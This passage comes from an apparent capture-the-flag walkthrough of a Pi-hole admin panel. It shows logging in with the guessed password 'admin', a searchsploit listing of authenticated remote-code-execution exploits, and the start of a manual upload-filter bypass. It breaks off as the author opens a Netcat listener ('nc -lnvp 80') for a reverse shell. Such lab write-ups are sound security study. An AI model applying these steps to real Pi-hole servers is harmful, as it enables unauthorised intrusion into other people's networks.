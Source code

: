 The admin panel is located at `/admin` (which can be found from the link in
the above image). It gives a dashboard:

![image-20200819153708739](https://0xdfimages.gitlab.io/img/image-20200819153708739.png)

There’s a link to Login, which leads to a form:

![image-20200819153742373](https://0xdfimages.gitlab.io/img/image-20200819153742373.png)

None of the passwords I’ve found this far work to get in, but just guessing
“admin” works!

Once logged in, there’s a footer at the bottom of each page that gives the
version:

![image-20200820160051438](https://0xdfimages.gitlab.io/img/image-20200820160051438.png)

#### Vulnerabilities

`searchsploit` shows there’s an authenticated remote code execution
vulnerability in versions less than or equal to 4.4:

    
    
    root@kali# searchsploit pi-hole
    -------------------------------------------------------- ---------------------------------
     Exploit Title                                          |  Path
    -------------------------------------------------------- ---------------------------------
    Pi-Hole - heisenbergCompensator Blocklist OS Command Ex | php/remote/48491.rb
    Pi-hole 4.4.0 - Remote Code Execution (Authenticated)   | linux/webapps/48519.py
    Pi-hole < 4.4 - Authenticated Remote Code Execution     | linux/webapps/48442.py
    Pi-hole < 4.4 - Authenticated Remote Code Execution / P | linux/webapps/48443.py
    Pi-Hole Web Interface 2.8.1 - Persistent Cross-Site Scr | linux/webapps/40249.txt
    -------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results
    

The first four exploits are all the same bug.

### Webshell

I can try to run the scripts, but they don’t work in current form. [This blog
post](https://frichetten.com/blog/cve-2020-11108-pihole-rce/) talks about how
the bug was discovered, and gives a step by step for the manual process (and a
lot of interesting technical detail). The bug isn’t technically RCE, but
rather upload filter bypass that leads to RCE as it allows me to upload PHP
into a directory that will run it.

Logged into the Pi-hole, I’ll pull up settings –> blocklists:

![image-20200820161648754](https://0xdfimages.gitlab.io/img/image-20200820161648754.png)

I’ll start Netcat with `nc -lnvp 80`, and then add the following new
blocklist:
